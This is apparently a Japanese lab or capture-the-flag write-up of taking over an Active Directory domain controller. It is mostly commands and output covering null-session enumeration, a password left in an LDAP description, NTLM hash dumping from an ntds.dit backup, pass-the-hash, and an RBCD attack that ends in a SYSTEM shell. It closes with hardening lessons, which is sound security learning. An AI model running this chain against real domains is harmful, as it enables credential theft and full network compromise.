

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows Server 2019 |
| 難易度 | 記録なし |
| 攻撃対象 | Active Directory (SMB, LDAP, RPC) |
| 主な侵入経路 | RPC null session ユーザー列挙、LDAP description パスワード漏洩、SMB 共有から ntds.dit 取得 |
| 権限昇格経路 | DC コンピュータオブジェクトへの DACL WRITE を利用した RBCD 攻撃 |

## 認証情報

```text
V.Ventz HotelCalifornia194!
L.Livingstone NTHash: 19a3a7550ce8c505c2d46b5e39d6f808
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.175:53
Open 192.168.198.175:88
Open 192.168.198.175:135
Open 192.168.198.175:139
Open 192.168.198.175:389
Open 192.168.198.175:445
Open 192.168.198.175:464
Open 192.168.198.175:593
Open 192.168.198.175:636
Open 192.168.198.175:3268
Open 192.168.198.175:3269
Open 192.168.198.175:3389
Open 192.168.198.175:5985
Open 192.168.198.175:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-19 18:50:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

RPC null session が許可されていた。`querydispinfo` によるユーザー列挙で、V.Ventz の LDAP description フィールドにパスワードが記載されていることが判明:

```bash
rpcclient -U '' -N $ip -c 'enumdomusers; enumdomgroups; getdompwinfo'
```

```bash
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[M.Mason] rid:[0x44f]
user:[K.Keen] rid:[0x450]
user:[L.Livingstone] rid:[0x451]
user:[J.Johnson] rid:[0x452]
user:[V.Ventz] rid:[0x453]
user:[S.Swanson] rid:[0x454]
user:[P.Parker] rid:[0x455]
user:[R.Robinson] rid:[0x456]
user:[D.Durant] rid:[0x457]
user:[G.Goldberg] rid:[0x458]
```

```bash
rpcclient -U "" -N 192.168.198.175 -c "querydispinfo"
```

```bash
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz  Name: (null)  Desc: New-hired, reminder: HotelCalifornia194!
```

V.Ventz の認証情報で SMB に接続すると「Password Audit」共有が見つかり、`ntds.dit` バックアップと `SYSTEM`・`SECURITY` レジストリハイブが格納されていた:

```bash
smbclient //$ip/"Password Audit" -U 'V.Ventz%HotelCalifornia194!' -m SMB3
```

```bash
smb: \>  ls
  .                                   D        0  Tue Oct  5 17:49:16 2021
  ..                                  D        0  Tue Oct  5 17:49:16 2021
  Active Directory                    D        0  Tue Oct  5 17:49:15 2021
  registry                            D        0  Tue Oct  5 17:49:16 2021
```

`secretsdump` でオフラインハッシュ抽出:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
```

L.Livingstone のみが WinRM (Remote Management Users) にアクセス可能だった。Pass-the-Hash で evil-winrm 接続:

```bash
evil-winrm -i $ip -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
```

```bash
*Evil-WinRM* PS C:\Users\L.Livingstone\desktop> type local.txt
8869e85ff16d9dbef1dc358fc6582289
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
L.Livingstone は `SeMachineAccountPrivilege` を持ち、さらに重要なことにドメインコントローラーのコンピュータオブジェクト `RESOURCEDC$` に対する WRITE 権限を保有していた。bloodyAD で確認:

```bash
bloodyAD -d resourced.local -u 'L.Livingstone' -p ':19a3a7550ce8c505c2d46b5e39d6f808' \
  --host 192.168.198.175 get writable --right 'ALL'
```

```bash
distinguishedName: CN=RESOURCEDC,OU=Domain Controllers,DC=resourced,DC=local
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

これにより Resource-Based Constrained Delegation (RBCD) 攻撃が可能になる:

**Step 1:** マシンアカウント作成:

```bash
impacket-addcomputer 'resourced.local/L.Livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 \
  -computer-name 'YOURPC$' -computer-pass 'Password123!' -dc-ip 192.168.198.175
```

```bash
[*] Successfully added machine account YOURPC$ with password Password123!.
```

**Step 2:** RESOURCEDC$ の `msDS-AllowedToActOnBehalfOfOtherIdentity` に YOURPC$ を設定:

```bash
impacket-rbcd 'resourced.local/L.Livingstone' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 \
  -delegate-to 'RESOURCEDC$' -delegate-from 'YOURPC$' -dc-ip 192.168.198.175 -action write
```

```bash
[*] Delegation rights modified successfully!
[*] YOURPC$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```

**Step 3:** Administrator になりすましたサービスチケットを取得:

```bash
impacket-getST 'resourced.local/YOURPC$:Password123!' \
  -spn cifs/ResourceDC.resourced.local -impersonate Administrator -dc-ip 192.168.198.175
```

```bash
[*] Saving ticket in Administrator@cifs_ResourceDC.resourced.local@RESOURCED.LOCAL.ccache
```

**Step 4:** チケットを使って psexec で SYSTEM シェルを取得:

```bash
export KRB5CCNAME=Administrator@cifs_ResourceDC.resourced.local@RESOURCED.LOCAL.ccache
impacket-psexec resourced.local/Administrator@ResourceDC.resourced.local -k -no-pass
```

```bash
C:\Windows\system32> type c:\users\administrator\desktop\proof.txt
0e4f0370419d1eb5ed46fa3c892609ca
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- LDAP の description フィールドにパスワードを記載しない — RPC null session で列挙可能。
- `ntds.dit` バックアップを SMB 共有に放置すると、全ドメインハッシュがオフライン抽出される。
- ドメインコントローラーのコンピュータオブジェクトへの WRITE 権限を制限する — RBCD 悪用で直接 SYSTEM 取得につながる。
- `SeMachineAccountPrivilege` を制限し、`MachineAccountQuota` を可能な限り 0 に設定する。
- bloodyAD などのツールで DACL 権限を定期的に監査し、危険な委任パスを検出する。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考リンク

- Impacket: https://github.com/fortra/impacket
- bloodyAD: https://github.com/CravateRouge/bloodyAD
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- RBCD Attack Explained: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-target-abuse
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
